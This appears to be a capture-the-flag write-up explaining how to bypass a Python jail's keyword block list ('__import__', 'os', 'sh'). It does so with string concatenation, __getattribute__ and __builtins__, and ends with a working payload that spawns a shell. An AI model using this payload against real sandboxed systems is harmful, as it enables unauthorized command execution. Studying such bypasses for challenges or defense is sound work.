

# Explanation
ok, so at the first, we had short blacklist, and that was the main function of the __RoadtoShell__ payload


```
blacklist = ['__import__', '__system__', 'sh', 'os']
```

So, at the first, lets focus on the string things, __os__ and __sh__

If u remember, in python, we can just plus the string from

```
__import__('os').system('sh')
```
to
```
__import__('o'+'s').system('s'+'h') 
```

Second, lets fix the **\_\_import\_\_** and **\_\_system\_\_**

so we can change the function using strings, using the built-in function

```
__getattribute__()
```

so, we called __system__ in __os__ library using that syntax

u can see the image below, its just the same



so lets next to the, import.

the main problem, where we can get the **\_\_import\_\_** if we just trying this syntax

```
__getattribute__('__import__')
```

so, what is the solution instead of using that syntax?

the solution is

```
__builtins__
```


yea, **\_\_import\_\_** is one of the default built-in function, so, we can call that first to take attribute **\_\_import\_\_** 

```
__builtins__.__getattribute__('__import__')
```

dont forget about the string + string, and the final payload is

```
__builtins__.__getattribute__('__imp'+'ort__')('o'+'s').__getattribute__('sys'+'tem')('s'+'h')
```